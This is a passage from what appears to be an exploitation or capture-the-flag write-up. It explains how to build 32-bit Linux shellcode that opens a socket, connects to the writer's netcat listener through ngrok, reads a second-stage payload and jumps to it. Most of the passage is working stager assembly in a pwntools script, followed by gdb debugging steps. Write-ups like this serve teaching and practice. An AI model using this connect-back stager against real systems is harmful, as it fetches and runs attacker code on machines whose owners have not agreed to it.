 Because we want to do a read so ebx need to be set to fd returned from SYS_SOCKET, which is `0`. The next register ecx is set correctly with the stack address, we will need to set register edx to a number too. By looking at the stack, we can see that we can easily set ebx to null and edx to a number with `pop ebx` and then `pop edx`. After we get new shellcode, just simply jump again to esp to continue second stage execution:

```python
shellcode = asm(
    '''
    sub sp, 0x200

    push eax
    push 1
    push 2

    mov al, 0x66        # SYS_SOCKETCALL
    push 1
    pop ebx             # SYS_SOCKET
    mov ecx, esp        # [2, 1, 0]
    int 0x80
    '''               + 
    f'push {host}\n' + 
    f'push {port}\n' + 
    '''
    mov ecx, esp        # serv_addr: [2, port, host]
    push 0x10
    push ecx
    push 0
    mov al, 0x66        # SYS_SOCKETCALL
    mov bl, 3           # SYS_CONNECT
    mov ecx, esp        # [0, serv_addr, 0X10]
    int 0x80

    mov al, 3
    pop ebx
    pop edx
    int 0x80

    jmp esp
    ''', arch='i386', os='linux')
```

Running locally and attach with gdb to debug our shellcode to check if we can read the second stage shellcode or not. Start a new netcat and ngrok (if you have closed), then run the binary with gdb attach. The SYS_CONNECT executed successfully so our netcat has connection now:

![netcat-new-connection.png](images/netcat-new-connection.png)
